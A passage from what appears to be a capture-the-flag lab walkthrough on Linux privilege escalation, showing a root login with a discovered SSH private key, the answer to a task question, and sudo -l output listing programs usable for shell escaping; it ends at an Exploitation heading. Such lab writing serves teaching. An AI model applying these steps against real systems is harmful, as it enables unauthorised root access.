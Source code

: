 ~~~
kali@kali:/data/Linux_PrivEsc_Arena/files$ chmod 400 id_rsa 
kali@kali:/data/Linux_PrivEsc_Arena/files$ ssh -i id_rsa root@10.10.106.230
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun 17 23:31:40 2020 from 192.168.4.51
root@debian:~# whoami
root
root@debian:~# 
~~~

## 7.1 - What's the full file path of the sensitive file you discovered?

Answer: `/backups/supersecretkeys/id_rsa`


# [Task 8] Privilege Escalation - Sudo (Shell Escaping)

**Detection﻿**

Linux VM

1. In command prompt type: `sudo -l`
2. From the output, notice the list of programs that can run via sudo.

~~~
TCM@debian:~$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
~~~

**Exploitation**

Linux VM

